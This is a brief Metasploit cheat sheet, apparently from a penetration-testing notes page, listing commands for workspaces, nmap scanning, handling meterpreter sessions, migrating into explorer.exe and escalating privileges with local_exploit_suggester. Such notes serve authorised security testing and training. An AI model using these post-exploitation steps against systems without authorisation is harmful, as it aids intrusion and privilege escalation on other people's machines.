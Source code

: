 #### Metasploit

```
# Start Metasploit
msfdb run

# Interact with workspaces
workspace

# For help
workspace -h

# Scan target with nmap
db_nmap -A <target ip>

```
#### Access a backgrounded meterpreter session
```
sessions -i <number>
```

#### Check Architecture and Meterpreter Version
```
sysinfo
```

#### Migrate from 32-bit to 64-bit Meterpreter session
```
# From your meterpreter session
ps

# Migrate into an X64 process such as explorer.exe
migrate <PID #>
```

#### Privesc with a Meterpreter session
```
# Background your low-priv meterpreter session
background

# local_exploit_suggester
use multi/recon/local_exploit_suggester

# show options
set session #
exploit
```

